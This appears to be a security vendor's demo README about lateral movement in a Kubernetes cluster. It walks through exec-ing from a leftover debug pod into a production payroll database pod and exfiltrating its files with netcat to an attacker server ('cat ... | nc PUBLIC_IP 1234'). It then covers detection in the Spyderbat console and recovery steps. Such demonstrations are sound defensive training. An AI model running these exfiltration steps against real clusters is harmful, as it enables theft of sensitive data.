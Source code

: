 # Lateral Movement Within the Cluster

This scenario shows an attacker accessing one portion of a cluster, and using the access in that namespace to move to another and exfiltrate data.

## Running the Exploit

For this scenario, we are going to use some debugging resources left over by Bob, a developer who decided he needed to be able to get direct access to the RSVP app to debug it. Since he forgot to clean up after solving the bugs, there is now an extra pod in the build namespace with some convenient developer tools.

Let's exec into the developer pod to begin.

```sh
kubectl exec -it -n payroll-build bobdev -- /bin/bash
```

Let's take a look around to see what we can do:

```
bash-4.2# id
uid=0(root) gid=0(root) groups=0(root)

bash-4.2# sudo -l
bash: sudo: command not found

bash-4.2# ps -aux
bash: ps: command not found
```

Looks like a pretty locked down container. Let's use a one-liner to check what is running on it instead of `ps`:

```sh
for pid in $(ls /proc | grep -P '[0-9]'); do cat /proc/$pid/cmdline 2>/dev/null | tr '\0' ' ' && echo; done
```

```
sleep infinity 
/bin/bash 
/bin/bash
```

It looks like this container isn't doing anything (aside from our shell); it must just be for debug access.

Taking a look at the bash history, it looks like Bob used kubectl to get into another namespace:

```sh
history
```
```
    1  ls
    2  kubectl config view
    3  kubectl get pods -A
    4  kubectl get pods -n payroll-prod
    5  kubectl describe pods -n payroll-prod
    6  kubectl exec -n payroll-prod payrolldb-6f7996c855-vrmrt -- hostname
    7  id
    8  sudo -l
    9  ps -aux
   10  for pid in $(ls /proc | grep -P '[0-9]'); do cat /proc/$pid/cmdline 2>/dev/null | tr '\0' ' ' && echo; done
   11  history
```

It looks like the deployment he was accessing is still here:

```sh
kubectl get pods -n payroll-prod
```
```
NAME                         READY   STATUS    RESTARTS   AGE
payrolldb-6cd4447758-2zcq4   1/1     Running   0          3m9s
```

Let's follow in Bob's footsteps.

```sh
kubectl exec -it -n payroll-prod $(kubectl get pods -n payroll-prod -o jsonpath='{.items[0].metadata.name}') -- /bin/bash
```

Now, we have ended on a pod in the production namespace, and a database pod on top of that. Let's take a look around:

```
root@payrolldb-6cd4447758-2zcq4:/# whoami
root
root@payrolldb-6cd4447758-2zcq4:/# ls
bin  boot  data  dev  docker-entrypoint-initdb.d  etc  home  js-yaml.js  lib  lib32  lib64  libx32  media  mnt	opt  proc  root  run  sbin  srv  sys  tmp  usr	var
root@payrolldb-6cd4447758-2zcq4:/# ls data/
configdb  db
```

It looks like we have full access to the database:

```sh
ls -la data/db
```

From here, we can directly extract the data we want. For example, using netcat: on a different publicly accessible computer with open ports (such as the jumpserver set up for the external lateral movement demo), run this command:

```sh
# on a separate attacker-controlled server
nc -l 1234 > download
```

Then run this in the pod:

```sh
apt update && apt install netcat
# make sure to edit this with the correct PUBLIC_IP of the listening server
cat data/db/collection-0-*.wt | nc PUBLIC_IP 1234
# wait a few seconds, then kill the command with Ctrl-C
```

On the public server, you should now have the collection-0 file in `download`.

```
[ec2-user@ip-172-32-65-41 ~]$ ls -l
total 20
-rw-r--r--. 1 ec2-user ec2-user 20480 Aug 21 21:48 download
```

## Investigation

Now that we have demonstrated lateral movement within the cluster, let's see what this looks like in Spyderbat. This test should trigger two Spydertraces - one for each container we have accessed. On the Spyderbat Console's Dashboard page, navigate to the Security tab. Under "Recent Spydertraces with a score > 50", there are two new traces, likely labeled `container_shell` or `root_shell` (or `falco_flag`, if you have the Falco integration installed). Select these two traces and click "Start Process Investigation" to start investigating these two traces together.

![The original messy trace](./lateral_movement_messy.png)

At first, the resulting graph may seem like a mess, but it is easy to clean up. First, let's make sure that we have all of the necessary information by zooming in and right-clicking on the root bash processes inside of each container, then selecting "Add X Descendants". You may also need to select "Add X Descendant Connections" if available.

![The right-click menu for one of the bash processes](./lateral_graph_editing.png)

Next, we can take a look at bash's immediate children. It is clear from the tree connections that the `apt` processes have many descendants. In this case, they are mostly irrelevant; just extra processes used in the packaging tool. To remove them, right-click the `apt` processes, and select "Remove X Descendants".


![An example graph of this exploit.](./lateral_movement_process_graph.png)

To further help understand the attack, we can use the bash command viewer: click on the bash process inside each pod and expand the viewer in the top right corner.

![An example of the bash viewer](./bobdev-bash-viewer.png)

With the noise out of the way, we can now more clearly see the sequence of events. On the leftmost machine, the attacker accessed the bobdev container and ran some kubectl commands. Looking at the command for the last kubectl process, we can see an exec into the payrolldb container.

![The details for the kubectl exec process](./kubectl_exec.png)

From there, the attacker explored their access, then installed a data exfiltration command and ran it, connecting to another IP. To ensure that you have the whole picture, you can right-click the `nc` connection and try adding the peer connection, or run a search for the remote IP address.

Once you have a graph with all the information you are interested in, you can save it and share it with other users in your organization by clicking "Copy Investigation Link" at the top of the graph view.

## Next Steps

With the data gathered in this investigation, we can now prepare a few recovery steps:

- Determine what data was in the file exfiltrated with the `nc` command.
- Remove the development container that Bob left.
- Check for any other containers that should not exist in the production environment. Spyderbat's Search feature could help with this - search for Containers where the image matches `*devops*`, for example.
- Rotate the kubectl access keys used to access the devops container and the payroll container.
- Revise debugging procedures for the affected applications.
- [Set up a Spyderbat cluster policy](https://docs.spyderbat.com/tutorials/guardian/how-to-put-guardrails-around-your-k8s-cluster-spyctl) to prevent unauthorized pods and images from being run in the cluster

## Further Reading

- [A detailed overview of Spyderbat's Search tool - Spyderbat Documentation](https://docs.spyderbat.com/concepts/search)
- [Guardian and Interceptor Policies - Spyderbat Documentation](https://docs.spyderbat.com/concepts/guardian)
- [How to Lock Down Your Workloads With Guardian Policies Using Spyctl - Spyderbat Documentation](https://docs.spyderbat.com/tutorials/guardian/how-to-lock-down-your-critical-workloads-with-policies-spyctl)

